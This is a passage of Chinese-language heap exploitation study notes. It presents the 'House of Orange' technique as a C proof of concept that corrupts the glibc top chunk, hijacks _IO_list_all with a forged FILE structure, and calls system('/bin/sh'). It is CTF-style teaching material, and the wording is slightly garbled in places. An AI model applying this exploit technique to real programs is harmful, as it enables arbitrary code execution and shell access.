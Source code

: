 可以看到最后 malloc(0x200) 的返回值是属于 fake chunk 的地址范围

### House Of Orange

利用 heap leak 和 libc credit 运行 winner

获取 shell 的控制权限

```C
// gcc -std=c99 -o houseoforange main.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner(char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    p1 = malloc(0x400 - 16);

    top = (size_t *)((char *)p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    memcpy((char *)top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    _IO_FILE *fp = (_IO_FILE *)top;

    fp->_mode = 0; // top+0xc0

    fp->_IO_write_base = (char *)2; // top+0x20
    fp->_IO_write_ptr = (char *)3;  // top+0x28

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t)&winner;
    *(size_t *)((size_t)fp + sizeof(_IO_FILE)) = (size_t)jump_table; // top+0xd8

    malloc(10);

    return 0;
}

int winner(char *ptr)
{
    system(ptr);
    return 0;
}
```
